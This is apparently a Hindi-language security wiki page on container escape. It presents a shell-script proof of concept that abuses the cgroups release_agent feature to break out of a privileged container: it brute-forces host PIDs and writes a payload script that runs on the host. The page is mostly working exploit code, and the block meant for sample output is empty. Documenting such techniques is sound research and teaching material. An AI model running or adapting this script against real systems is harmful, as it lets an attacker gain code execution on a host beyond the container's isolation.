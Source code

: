 नीचे दिया गया PoC इन तकनीकों को लागू करता है ताकि Felix के मूल PoC में पहली बार प्रस्तुत की गई तुलना में एक अधिक सामान्य हमला प्रदान किया जा सके, जो कि cgroups `release_agent` कार्यक्षमता का उपयोग करके एक विशेषाधिकार प्राप्त कंटेनर से बचने के लिए है:
```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
if [ $((${TPID} % 100)) -eq 0 ]
then
echo "Checking pid ${TPID}"
if [ ${TPID} -gt ${MAX_PID} ]
then
echo "Exiting at ${MAX_PID} :-("
exit 1
fi
fi
# Set the release_agent path to the guessed pid
echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
# Trigger execution of the release_agent
sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```
प्रिविलेज्ड कंटेनर के भीतर PoC को निष्पादित करने पर आपको इसी प्रकार का आउटपुट मिलना चाहिए:
```bash
```